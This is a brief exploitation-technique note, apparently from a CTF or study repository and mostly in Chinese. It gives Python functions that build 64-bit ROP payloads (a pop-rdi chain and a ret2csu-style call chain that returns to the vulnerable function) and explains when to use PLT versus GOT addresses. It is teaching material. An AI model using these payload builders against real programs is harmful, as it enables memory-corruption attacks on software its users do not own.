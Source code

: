 ## Tips:

```Python

def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload

def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

## 注意。

### 1.最后是ret左右func_addr应该是plt段的函数地址，<br>

例如.plt [puts] = 0x400500 <br>
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址<br>
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)<br>

### 2. call func_addr

必须是got的地址<br>
.got[read] = 0x601028<br>
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)<br>
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址<br>

### 总结

ret 后面必须是 .plt<br>
__libc_init 里用call来必须是 .got的<br>


